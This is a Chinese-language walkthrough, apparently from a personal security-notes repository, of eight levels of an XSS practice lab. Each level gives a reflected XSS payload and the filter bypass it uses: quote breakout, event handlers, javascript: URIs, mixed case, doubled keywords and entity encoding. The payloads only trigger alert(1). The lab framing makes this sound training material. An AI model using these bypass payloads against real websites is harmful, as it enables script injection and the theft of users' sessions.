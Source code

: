 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script><onerror><a hRef>测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符”<scripT><oNerror><a Href>""''“，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```













